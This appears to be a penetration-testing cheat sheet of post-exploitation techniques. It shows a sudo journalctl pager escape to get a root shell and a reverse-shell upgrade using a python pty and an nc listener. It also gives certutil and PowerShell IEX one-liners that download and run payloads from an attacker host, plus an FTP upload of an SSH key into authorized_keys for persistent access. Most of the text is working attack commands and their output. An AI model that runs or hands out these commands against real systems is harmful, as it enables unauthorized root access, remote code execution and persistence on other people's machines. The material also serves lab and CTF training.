 
#### More or Less Command 

- If any file we found in low priv user and it contains something like this, we can execute it and minimize the size of terminal to enter the visual mode to gain root access.

```
> $ cat new.sh 
#!/bin/bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

```
> $ sh new.sh 
-- Logs begin at Sun 2019-11-17 19:19:25 EST, end at Mon 2019-11-18 17:13:44 EST. --
Nov 18 17:02:26 kali sudo[11538]: pam_unix(sudo:auth): authentication failure; logname= uid=33 eu
Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): conversation failed
Nov 18 17:02:29 kali sudo[11538]: pam_unix(sudo:auth): auth could not identify password for [www-
Nov 18 17:02:29 kali sudo[11538]: www-data : command not allowed ; TTY=unknown ; PWD=/tmp ; USER=
Nov 18 17:02:29 kali crontab[11595]: (www-data) LIST (www-data)
!/bin/bash
root # 
```

#### Improve Shell
To get the better Shell after taking control of the system.
```
www-data@machine:/var/www/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
<html$ python3 -c "import pty;pty.spawn('/bin/bash')"                        
www-data@machine:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 443
root@kali:# stty raw -echo
----------------------Here we need to type `fg` and press Enter `Twice`
root@kali:# nc -nlvp 443 
www-data@machine:/var/www/html$ export TERM=xterm
```

#### Transfer Files from Host to Target Machine
- Use `python -m SimpleHTTPServer` in the host folder.
- Use Apache and put files in `/var/www/html/` folder.
- If Tomcat is Opened, upload the file/payload using the Admin panel.
- If wordpress is running, upload the file as plugin.
- In Windows Victim, use `certutil -urlcache -f http://<HOST_IP>/<FILE_NAME> <OUTPUT_FILE_NAME>`
- In Windows, Using Powershell: `PS C:\Users\User\Desktop> IEX(New-Object Net.WebClient).downloadString('http://<HOST_IP>:8000/jaws-enum.ps1')`


#### FTP

If we were able to access FTP, we can upload SSH Key to login without password.
```
 > $ ftp <HOST_IP>
Connected to <HOST_IP>.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:<HOST_IP>]
Name (<HOST_IP>:root): notch
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put id_rsa.pub
ftp> rename id_rsa.pub authorized_keys
```
